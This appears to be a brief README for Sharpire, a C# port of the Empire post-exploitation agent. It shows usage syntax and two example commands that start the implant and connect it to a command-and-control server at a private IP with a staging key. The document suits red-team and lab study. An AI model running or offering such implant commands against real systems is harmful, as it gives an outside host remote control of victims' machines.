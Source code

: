 ## Sharpire - An implimentation of the Empire Agent in C#

sharpire.exe \<server\> \<stagingkey\> \<language\>



sharpire.exe "http://192.168.255.100:80" "aRAVQ_z?6PqujiWgf!eNwBZ&G)^h(L/|" "powershell"<br/>
sharpire.exe "http://10.2.2.100:80" "aRAVQ_z?6PqujiWgf!eNwBZ&G)^h(L/|" "dotnet"

*Note: This is still in testing. 

File upload and download are not completed yet.
